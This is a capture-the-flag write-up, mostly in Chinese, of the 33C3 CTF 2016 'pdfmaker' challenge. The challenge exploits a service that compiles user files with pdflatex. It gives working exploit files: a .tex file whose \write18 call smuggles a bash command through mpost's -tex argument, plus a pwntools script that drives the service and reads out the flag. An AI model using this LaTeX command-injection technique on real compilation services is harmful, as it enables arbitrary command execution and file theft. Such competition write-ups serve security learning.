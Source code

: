 ```yaml
---
title: '[33C3 CTF 2016] pdfmaker 75'
author: bruce30262
tags:
  - Misc
  - pdflatext
  - 33C3 CTF 2016
categories:
  - write-ups
date: 2016-12-31
layout: post
---
```

## Info  
> Category: Misc
> Point: 75
> Author: bruce30262 @ BambooFox
> 
> Description: 
> Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex. 
> What can possibly go wrong?
> nc 78.46.224.91 24242

## Analyzing
根據題目給的原始碼，我們可以得知這是一個可以讓使用者進行讀寫以及編譯檔案的 service。

* `create`: 製作檔案，檔案類型有: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: 顯示指定的檔案內容
* `compile`: 使用 `pdflatext` 編譯一個檔案

解題的過程中 **mike** 找到了一個有用的連結: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

簡單來說就是透過製作惡意的 `.mp` 和 `.tex` 檔案，我們可以利用 `pdflatext` 在 compile 檔案的時候，透過執行 `mpost` 指令來達到執行任意 command 的效果。

## Solution
基本上只要照著連結裡的方式做即可:
1. create 一個惡意的 `.mp` 檔
2. create 一個惡意的 `.tex` 檔，將裡面的指令改為 `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`。這行 command 會將 flag 的內容存到 qqq.log 裡頭
3. 透過 Compile 惡意的 `.tex` 檔來執行我們的 command
4. show qqq.log，得到 flag

final exploit:
```txt sss.mp
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

```txt aaa.tex
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

```python exp.py
from pwn import *

r = remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f = open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f = open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`
